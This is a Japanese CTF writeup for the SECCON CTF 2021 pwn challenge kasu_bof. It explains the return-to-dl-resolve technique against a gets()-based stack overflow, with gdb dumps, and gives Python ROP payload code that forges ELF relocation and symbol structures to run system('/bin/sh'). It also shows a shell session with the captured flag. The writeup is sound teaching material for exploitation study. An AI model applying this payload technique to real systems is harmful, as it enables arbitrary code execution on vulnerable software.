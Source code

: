 ---
title: "SECCON CTF 2021 - kasu_bof Writeup"
date: 2022-11-11T11:29:55+09:00
draft: false
summary: "本記事はSECCON CTF 2021のPwn問題kasu_bofのWriteupです。"
author: "mc4nf"
---

** 問題
*** 問題文
#+begin_example
## Question
Do you understand return-to-dl-resolve attack on 32-bit?   
#+end_example

*** 配布ファイル
- ~main.c~
- ~chall~
      
**** ~main.c~
#+begin_src c
    #include <stdio.h>

    int main(void) {
      char buf[0x80];
      gets(buf);
      return 0;
    }
#+end_src

**** ~chall~
#+begin_example
mc4nf@mc4nf:~/ctf/seccon2021/pwn/kasu_bof$ file chall
chall: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, BuildID[sha1]=cb260735eeb00c173f7f530e9fae9ee3704e6c6f, for GNU/Linux 3.2.0, not stripped

mc4nf@mc4nf:~/ctf/seccon2021/pwn/kasu_bof$ checksec chall
[*] '/home/mc4nf/ctf/seccon2021/pwn/kasu_bof/chall'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
#+end_example
- x86
- SSP (Stack Smashing Protection) 無効
- Partial RELRO
      
** 方針
配布されたソースコード ( ~main.c~ )を見てみると、以下の特徴がある。
- ~char~ 型の配列 ~buf~ のサイズが ~0x80~ byte 
- ~gets~ を使用しているため、 ~\n~ (0x0a) が入力されるまで配列 ~buf~ に任意の文字を入力可能

  
このことから，配布されたプログラムには簡単なスタックバッファオーバフローの脆弱性があることがわかる．


また、問題文に ~return to dl resolve~ という攻撃方法を使用すれば良い旨のコメントがあるため，
スタックバッファオーバフローを利用して， ~return to dl resolve~ を用いて ~shell~ を起動できるとよさそうである．


よって、この問題以下の方針で解いていく。
1. *return to dl resolve* を利用するため、 ~.plt~ セクションからライブラリ関数のアドレスが解決するまでの流れを調査
2. 1.を踏まえて、 *return to dl resolve* を利用し、 ~shell~ を起動

** 1. return to dl resolve (ret2dl resolve)
   return to dl resolveは、ライブラリ関数のアドレスを動的に解決する際に呼び出される関数である ~_dl_runtime_resolve~ を利用し、任意のライブラリ関数を呼び出す攻撃手法である。

   この攻撃の流れは以下のようになる。

   1. 任意の関数(ここでは ~shell~ )を呼ぶため、 ~_dl_runtime_resolve~ に読み込ませる偽の ~Elf32_Rel~ 構造体と ~Elf32_Sym~ 構造体のオブジェクト、および NULL終端文字列 ~"system"~ と ~"/bin/sh"~ を書き込み可能な領域に用意
   2. ~_dl_runtime_resolve~ が ~Elf32_Rel~ 構造体を特定するために引数に取る ~reloc_arg~ を、偽の ~Elf32_Rel~ を指すように指定
   3. ~.plt~ の先頭にジャンプし、偽の構造体を元に ~system~ のアドレスを解決し、 ~system("/bin/sh")~ を実行

   そこで、以下では、pltセクションからアドレス解決の流れを説明し、如何にして偽の構造体を作成すればよいかについて説明する。

*** ~main~ から ~puts~ が呼び出されるまで
    main から puts が呼びだされるまでの流れを説明
    
*** ~.plt~ セクションからアドレス解決の流れ
    ~.plt~ セクションから、 ~link_map~ 構造体を元にそれぞれのセクションのアドレスが特定され、それぞれのセクションに含まれる情報を参照することにより、ライブラリ関数のシンボルを解決する。

    
    そこで、以下では、 ~gets@plt~ が呼び出されてから ~gets~ のシンボルが解決されるまでの流れを示す。


    参考
    #+begin_example    
        .rel.plt                         .dynsym                                           .dynstr                                    
            |                                |                                                 |
            |                                |                                                 |
reloc_arg---+   reloc_arg + .rel.plt         |                                                 |
            |                                |                                                 |
            +-->|-----------+----------|     |                                                 |
                | Elf32_Rel | r_offset |     |                                                 |
                |           | r_info   |-----+  (r_info>>8 + .dynsym)*sizeof(Elf32_Sym)        |
                |-----------+----------|     |                                                 |
                                             |                                                 |
                                             +->|-----------+---------------------------|      |
                                                | Elf32_Sym | st_name                   |------+   st_name + .dynstr
                                                |           | st_value                  |      |
                                                |           | st_size                   |      |
                                                |           | st_info st_other st_shndx |      |
                                                |-----------+---------------------------|      |
                                                                                               |
                                                                                               +-->|-----------+----------|
                                                                                                   | symbol    |  'gets'  |
                                                                                                   |-----------+----------|
    #+end_example
    
**** ~link_map~ 構造体
   ~link_map~ はELFファイルと実際にマッピングされたアドレスの差分や各セクションのアドレス，再配置情報を保持する構造体であり、ライブラリ関数のシンボルを解決する際に参照される。   

   ~plt~ にジャンプする前に、 ~link_map~ 構造体のアドレス（GOTの2番目のエントリ）とGOTのオフセット ( ~reloc_arg~ )がスタックに格納される。
     - https://elixir.bootlin.com/glibc/glibc-2.36/source/include/link.h#L95
	 #+begin_src c
	   struct link_map
	   {
	     /* These first few members are part of the protocol with the debugger.
		This is the same format used in SVR4.  */

	     ElfW(Addr) l_addr;		/* Difference between the address in the ELF
					      file and the addresses in memory.  */
	     char *l_name;		/* Absolute file name object was found in.  */
	     ElfW(Dyn) *l_ld;		/* Dynamic section of the shared object.  */
	     struct link_map *l_next, *l_prev; /* Chain of loaded objects.  */
	     ...

	     ElfW(Dyn) *l_info[DT_NUM + DT_THISPROCNUM + DT_VERSIONTAGNUM
		      + DT_EXTRANUM + DT_VALNUM + DT_ADDRNUM];
	     ...
	   }

	 #+end_src
	 
     以下の例の場合， ~link_map~ 構造体のアドレス ~0x804c004~ と ~gets~ の ~reloc_arg~ ~0x0~ をスタックにプッシュしている。
	#+begin_src
     gef➤  x/10i $eip
     => 0x8049030:   push   DWORD PTR ds:0x804c004
	0x8049036:   jmp    DWORD PTR ds:0x804c008
	0x804903c:   add    BYTE PTR [eax],al
	0x804903e:   add    BYTE PTR [eax],al
	0x8049040 <gets@plt>:        jmp    DWORD PTR ds:0x804c00c
	0x8049046 <gets@plt+6>:      push   0x0
	0x804904b <gets@plt+11>:     jmp    0x8049030
	0x8049050 <__libc_start_main@plt>:   jmp    DWORD PTR ds:0x804c010
	0x8049056 <__libc_start_main@plt+6>: push   0x8
	0x804905b <__libc_start_main@plt+11>:        jmp    0x8049030
	#+end_src
   

   以下のサイトを参考に、gdbで、ELFの構造体を読み込めるようにする。
   - https://inaz2.hatenablog.com/entry/2014/07/21/124857
     - gdbに ~link.h~ および ~elf.h~ のシンボル情報を読み込み
       #+begin_src 
	 gcc -g -fno-eliminate-unused-debug-types -x c -m32 -c /usr/include/link.h -o link.o
       #+end_src
       今回はx86のELFを対象としているため ~-m32~ オプションを指定

   特定した ~link_map~ 構造体のアドレス ~0xf7ffd990~ の中身を表示してみる。
   #+begin_src 
	 gef➤  add-symbol-file link.o 0
	 add symbol table from file "link.o" at
		 .text_addr = 0x0
	 Reading symbols from link.o...
	 gef➤  set $l = (struct link_map *) 0xf7ffd990
	 gef➤  print *$l
	 $1 = {
	   l_addr = 0x0,
	   l_name = 0xf7ffdc84 "",
	   l_ld = 0x804bf14,
	   l_next = 0xf7ffdc90,
	   l_prev = 0x0
	 }
   #+end_src

**** ~.dynamic~ セクション
  ~.dynamic~ セクションのアドレスは， ~link_map~ 構造体の ~l_ld~ に格納されるため、
  ~.dynamic~ セクションのアドレスは ~0x804bf14~ であるとわかる。
   
  ~.dynamic~ セクションは， ~ELF_Dyn~ 構造体のエントリを ~d_tag~ の種類の数保持しており、この中に ~.rel.plt~ や ~.dynsym~ , ~.dynstr~ などのアドレスが格納されている。
    - ELF32_Dyn 構造体
      - https://elixir.bootlin.com/glibc/glibc-2.36/source/elf/elf.h#L840
	#+begin_src c
	  typedef struct
	  {
	    Elf32_Sword d_tag;			/* Dynamic entry type */
	    union
	      {
		Elf32_Word d_val;			/* Integer value */
		Elf32_Addr d_ptr;			/* Address value */
	      } d_un;
	  } Elf32_Dyn;
	#+end_src
	 
    - d_tagの定義
      - https://elixir.bootlin.com/glibc/glibc-2.36/source/elf/elf.h#L862
	#+begin_src c
	  /* Legal values for d_tag (dynamic entry type).  */
	  ...
	  #define DT_STRTAB	5		/* Address of string table */
	  #define DT_SYMTAB	6		/* Address of symbol table */
	  ...
	  #define DT_REL	17		/* Address of Rel relocs */
	  ...
	  #define DT_JMPREL	23		/* Address of PLT relocs */
	  ...
	#+end_src
	 
    また、このとき ~.dynamic~ セクションは， ~d_tag~ の順番に並んでいる訳ではないことに注意。
    - 以下の例では， ~DT_STRTAB, DT_SYMTAB~ は8，9番目のエントリ， ~DT_JMPREL, DT_REL~ は16，17番目のエントリに配置
      #+begin_src 
      0x0804bf14│+0x0000   <_DYNAMIC+0000> 0x00000001
      0x0804bf18│+0x0004   <_DYNAMIC+0004> 0x00000001
      ...
      0x0804bf54│+0x0040   <_DYNAMIC+0040> 0x00000005 // DT_STRTAB
      0x0804bf58│+0x0044   <_DYNAMIC+0044> 0x0804825c
      0x0804bf5c│+0x0048   <_DYNAMIC+0048> 0x00000006 // DT_SYMTAB
      0x0804bf60│+0x004c   <_DYNAMIC+004c> 0x0804820c
      ...
      0x0804bf94│+0x0080   <_DYNAMIC+0080> 0x00000017 // DT_JMPREL
      0x0804bf98│+0x0084   <_DYNAMIC+0084> 0x080482d8
      0x0804bf9c│+0x0088   <_DYNAMIC+0088> 0x00000011 // DT_REL
      0x0804bfa0│+0x008c   <_DYNAMIC+008c> 0x080482d0
      ...
      #+end_src
       
**** ~.rel.plt~ セクション
  ~rel.plt~ セクションは， ~ELF32_Rel~ 構造体の配列となっている。
    - ELF32_Rel 構造体
      - https://elixir.bootlin.com/glibc/glibc-2.36/source/elf/elf.h#L634
	#+begin_src c
	  typedef struct
	  {
	    Elf32_Addr	r_offset;		/* Address */
	    Elf32_Word	r_info;			/* Relocation type and symbol index */
	  } Elf32_Rel;
      #+end_src

     ~.dynamic~ セクションから取得した ~.rel.plt~ のアドレス先をgdbでダンプしてみる。
      - ~reloc_arg~ が ~.rel.plt~ のインデックス
	#+begin_src 
	  gef➤  ser $reloc_arg = 0x0
	  gef➤  set $reloc = &((Elf32_Rel *)($l.l_ld[16].d_un.d_ptr))[$reloc_arg]
	  gef➤  print *$reloc
	  $10 = {
	      r_offset = 0x804c00c,
	      r_info = 0x107
	  }

	  gef➤  dd 0x080482d8
	  0x080482d8│+0x0000   0x0804c00c // getsのGOTエントリ (reloc_arg = 0x0)
	  0x080482dc│+0x0004   0x00000107
	  0x080482e0│+0x0008   0x0804c010 // __libc_start_mainのGOTエントリ (reloc_arg = 0x1)
	  0x080482e4│+0x000c   0x00000307
	  0x080482e8│+0x0010   0x00000000
	  0x080482ec│+0x0014   0x00000000
      #+end_src
	 
    ~r_info~ は，シンボルを解決するために使用される。
    ~r_info~ を 8 byte 右シフトすることにより， ~dynsym~ のインデックスを取得することができる。
    - ~r_info~ の定義
      #+begin_src c
	/* How to extract and insert information held in the r_info field.  */

	#define ELF32_R_SYM(val)		((val) >> 8)
	#define ELF32_R_TYPE(val)		((val) & 0xff)
	#define ELF32_R_INFO(sym, type)	(((sym) << 8) + ((type) & 0xff))

	#define ELF64_R_SYM(i)			((i) >> 32)
	#define ELF64_R_TYPE(i)		((i) & 0xffffffff)
	#define ELF64_R_INFO(sym,type)		((((Elf64_Xword) (sym)) << 32) + (type))
      #+end_src
       
**** ~.dynsym~ セクション
    ~.dynsym~ セクションは， ~Elf32_Sym~ 構造体の配列となっている。
      - ELF32_Sym 構造体
	- https://elixir.bootlin.com/glibc/glibc-2.36/source/elf/elf.h#L519
	  #+begin_src c
	    typedef struct
	    {
	      Elf32_Word	st_name;		/* Symbol name (string tbl index) */
	      Elf32_Addr	st_value;		/* Symbol value */
	      Elf32_Word	st_size;		/* Symbol size */
	      unsigned char st_info;		/* Symbol type and binding */
	      unsigned char st_other;		/* Symbol visibility */
	      Elf32_Section st_shndx;		/* Section index */
	    } Elf32_Sym;
          #+end_src
	  - ~st_name~ は，実際にシンボルが置かれている ~.dynstr~ セクションのオフセット
    ~r_info~ からインデックスを計算し、 ~Elf32_Sym~ のアドレスを特定してみる。
    #+begin_src
      gef➤  set $symtab = (Elf32_Sym *)($l.l_ld[9].d_un.d_ptr)
      gef➤  set $sym = $symtab[$reloc.r_info>>8]
      gef➤  print $sym
      $7 = {
	st_name = 0x1a,
	st_value = 0x0,
	st_size = 0x0,
	st_info = 0x12,
	st_other = 0x0,
	st_shndx = 0x0
      }
    #+end_src
**** ~.dynstr~ セクション
    ~st_name~ のオフセットを ~.dynstr~ セクションのアドレスに足し合わせたアドレスが，シンボルを指すアドレスとなっている。
    - 以下の例では， ~l_ld~ から ~.dynsym~ セクションのアドレスを取得し，その後 ~r_info~ から取得したインデックスを元に ~.dynstr~ セクションからシンボル名を解決 ( ~reloc_arg = 0~ の ~gets~ が解決)
    #+begin_src
      gef➤  set $strtab = (char*)($l.l_ld[8].d_un.d_ptr)
      gef➤  set $undef_name = $strtab + $sym.st_name
      gef➤  print $undef_name
      $8 = 0x8048276 "gets"
    #+end_src
    これにより、 ~link_map~ 構造体から ~gets~ のシンボルが解決されるまでの流れを把握することができた。

    そこで、次にこの流れを踏まえた上で、 ~system("/bin/sh")~ 呼び出すためのSolverを作成していく。


** 2. Solverの作成    
*** Solverの準備
    上記の流れを図にすると、それぞれのセクションと構造体とシンボルの関係は以下のようになる。
#+begin_example    
        .rel.plt                         .dynsym                                           .dynstr                                    
            |                                |                                                 |
            |                                |                                                 |
reloc_arg---+   reloc_arg + .rel.plt         |                                                 |
            |                                |                                                 |
            +-->|-----------+----------|     |                                                 |
                | Elf32_Rel | r_offset |     |                                                 |
                |           | r_info   |-----+  ((r_info>>8) + .dynsym)*sizeof(Elf32_Sym)      |
                |-----------+----------|     |                                                 |
                                             |                                                 |
                                             +->|-----------+---------------------------|      |
                                                | Elf32_Sym | st_name                   |------+   st_name + .dynstr
                                                |           | st_value                  |      |
                                                |           | st_size                   |      |
                                                |           | st_info st_other st_shndx |      |
                                                |-----------+---------------------------|      |
                                                                                               |
                                                                                               +-->|-----------+----------|
                                                                                                   | symbol    | 'system' |
                                                                                                   |-----------+----------|
    #+end_example
    ここで、 ~reloc_arg~ にはスタックバッファオーバフローを利用して任意の値を指定することが可能なため、 ~.rel.plt~ の値から偽の ~Elf32_Rel~ 構造体を配置したアドレスまでのオフセットを設定する。
    #+begin_src python
      reloc_arg = Elf32_Rel_addr - rel
    #+end_src
    
    また、偽の ~Elf32_Rel~ 構造体では、 ~r_info~ を 8 bitだけ右シフトした値を ~.dynsym~ を基準とした偽の ~Elf32_Sym~ 構造体へのインデックスとして使用する。
    このため、事前にインデックスを計算し、 ~Elf32_Rel~ 構造体に格納しておく。
    このとき、 ~r_info~ の下bitが ~0b111 (0x7)~ である必要があるため、最後に ~7~ を or することで下3bitに1を立てている。

    ~r_offset~ は、解決されたアドレスが格納されるアドレスであり、通常は ~.got~ の対応するエントリを指している。
    今回は特に関係ないものの、 ~gets~ の GOTエントリを指定しておく。    
    #+begin_src python
      r_offset = gets_got
      r_info   = ((Elf32_Sym_addr - dynsym)//0x10)<<8 | 7
    #+end_src
    
    ~Elf32_Sym~ 構造体の ~st_name~ は、 ~.dynstr~ の値から ~system~ のシンボルを配置したアドレスまでのオフセットを設定する。
    このため、事前にオフセットの値を計算し、 ~Elf32_Sym~ 構造体に格納しておく。

    ~st_info~ は、global変数であることを指す ~0x12~ を設定しておく必要があるため、設定しておく。
    #+begin_src python
      st_name = system_symbol_addr - dynstr
      st_value = 0x0
      st_size = 0x0
      st_info = 0x12
      st_other = 0x0
      st_shndx = 0x0
    #+end_src

**** ~.bss~ 領域への作成した構造体やシンボルの格納
    ~.bss~ 領域には，以下のように作成した ~Elf32_Rel~ 構造体と ~Elf32_Sym~ 構造体， ~system~ のシンボル，および ~/bin/sh~ の文字列が格納する．    
    #+begin_example
    |-----------+----------.bss-------------+---------|
    | Elf32_Rel | r_offset                  | 8 byte  |
    |           | r_info                    |         |
    |-----------+---------------------------+---------|
    |           |                           | 8 byte  |
    |           |                           | (align) |
    |-----------+---------------------------+---------|
    | Elf32_Sym | st_name                   | 16 byte |
    |           | st_value                  |         |
    |           | st_size                   |         |
    |           | st_info st_other st_shndx |         |
    |-----------+---------------------------+---------|
    |           |                           | 4byte   |
    |-----------+---------------------------+---------|
    | symbol    | 'system'                  | 4byte   |
    |-----------+---------------------------+---------|
    |           |                           | 4byte   |
    |-----------+---------------------------+---------|
    | argment   | '/bin/sh'                 | 4byte   |
    |-----------+---------------------------+---------|
    |           |                           |         |
    #+end_example
    このとき， ~Elf32_Sym~ 構造体は， ~dynsym~ セクションのアドレスから， ~0x10~ byteの間隔で配置されなければならないため( ~Elf32_Sym~ 構造体のサイズが ~0x10~ byteのため)，
    必要なbyte数だけalignしている．

    Solverを書くときは，事前に ~.bss~ のどのアドレスがどの構造体やシンボルに対応するか計算しておき，ROPで ~gets~ の引数として指定しておき，ROPチェインが発火後に，それぞれの構造体やシンボルを書き込んでいく．
    #+begin_src python
      Elf32_Rel_addr = bss

      Elf32_Sym_addr = Elf32_Rel_addr + 0x10

      system_symbol_addr = Elf32_Sym_addr + 0x14

      sh_symbol_addr = system_symbol_addr + 0x1c
    #+end_src

**** ROPチェインの作成
     あとは、用意した偽の構造体やシンボルを ~.bss~ 領域内に格納できるように、複数回 ~gets~ を呼び出す必要がある。

     そこで、 それぞれ計算しておいた領域に構造体を引数とし、 ~gets@plt~ にジャンプするROPを組む。
     x86のROPは、参考のセキュリティコンテストチャレンジブックが参考になる。
     
     #+begin_src python
      # padding
      buf = b'A'*0x84                 # fill stack
      buf += p32(0xdeadbeaf)         # saved_ebp

      # gets(Elf32_Rel_addr)
      buf += p32(gets_plt)           # main return addr
      buf += p32(pop_ret)            # gets return addr
      buf += p32(Elf32_Rel_addr)     # gets arg

      # gets(Elf32_Sym_addr)
      buf += p32(gets_plt)           # pop ret return addr
      buf += p32(pop_ret)            # gets return addr
      buf += p32(Elf32_Sym_addr)     # gets arg

      # gets(system_symbol_addr)
      buf += p32(gets_plt)           # pop ret return addr
      buf += p32(pop_ret)            # gets return addr
      buf += p32(system_symbol_addr) # gets arg

      # gets(sh_symbol_addr)
      buf += p32(gets_plt)           # pop ret return addr
      buf += p32(pop_ret)            # gets return  addr
      buf += p32(sh_symbol_addr)     # gets arg
     #+end_src

     それぞれの構造体とシンボルの書き込みを行うROPを組んだ後、偽の構造体を元にアドレスを解決させるため、 ~.plt~ セクションの先頭にジャンプする。
     このとき、 ~system~ の引数として ~/bin/sh~ を取れるように、 ~/bin/sh~ が格納されたアドレスをスタックに積んでおく。
     #+begin_src python
      # system('/bin/sh')
      buf += p32(plt)                # pop ret return addr
      buf += p32(reloc_arg)          # reloc arg
      buf += p32(0xdeadbeef)         # padding
      buf += p32(sh_symbol_addr)     # system arg
     #+end_src

*** Solver
    https://github.com/Team-Enu/writeup/tree/main/seccon-ctf-2022/kasu_bof

**** 実行結果
     #+begin_example
mc4nf@mc4nf:~/ctf/seccon2021/pwn/kasu_bof$ python solve.py 
[*] '/home/mc4nf/ctf/seccon2021/pwn/kasu_bof/chall'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
[+] Opening connection to localhost on port 9001: Done
[*] Switching to interactive mode
$ ls
chall
flag-4f8e964cf95b989f6def1afdfd0e91b7.txt
$ cat flag*
SECCON{jUst_4_s1mpL3_b0f_ch4ll3ng3}
     #+end_example

**** ~SECCON{jUst_4_s1mpL3_b0f_ch4ll3ng3}~
     
**  参考
- 詳解セキュリティコンテスト
  - https://book.mynavi.jp/ec/products/detail/id=122750
  - 33.2.2 発展：関数シンボルの動的解決 pp.525
  
- ROP stager + Return-to-dl-resolveによるASLR+DEP回避 - ももいろテクノロジー   
  - https://inaz2.hatenablog.com/entry/2014/07/15/023406

- ret2dl resolve - slideshare
  - https://www.slideshare.net/sounakano/ret2dl-resolve

- セキュリティコンテストチャレンジブック
  - https://book.mynavi.jp/ec/products/detail/id=42421
  - 2.4 エクスプロイト - Retrun to PLT (ret2plt) pp.109
    - x86のROP

- リンカ・ローダ実践開発テクニック
  - https://shop.cqpub.co.jp/hanbai/books/38/38071.html
  - 2.9 シンボル・テーブル pp.54
    - Elf_Sym構造体について    
  - 2.10 再配置テーブル pp.57
    - Elf_Rel構造体について

- gdbに構造体定義を読み込ませて使う - ももいろテクノロジー
  - https://inaz2.hatenablog.com/entry/2014/07/21/124857


- ret2dl_resolve Sections 關係表
  - https://hackmd.io/@LJP/BkJmAqXEI
  - ELfのマクロについて


created 2022/11/11\\
updated 2022/11/25
